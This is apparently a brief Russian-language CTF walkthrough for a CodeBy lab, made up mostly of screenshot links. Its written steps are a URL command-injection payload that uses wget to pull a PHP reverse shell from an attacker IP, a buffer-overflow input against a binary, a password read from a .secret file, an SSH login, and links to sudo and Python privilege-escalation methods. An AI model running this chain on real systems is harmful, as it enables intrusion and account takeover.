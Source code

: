 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1a38ac51-1a71-40a9-9c4d-27dcbd325b4c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)

Кидаем реверс php

GET /search.php?q=%22%3bwget%20ip:1234/test1.php%3b%22

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9bbdcef7-fd6c-4aae-8c64-6478e7d687da)

`find / -user nolan`

echo

https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

```
./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')
```

Читаем файл .secret там пароль

Заходим по ssh `ssh nolan@62.173.140.174 -p 18822`

`sudo -l`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9e6a487a-8efe-43f2-ac46-d5ce87921409)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/5a863c83-2e9c-41ea-b125-a36cd846bcf4)

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/065bb0a0-4be4-43eb-a886-746d54d2beeb)





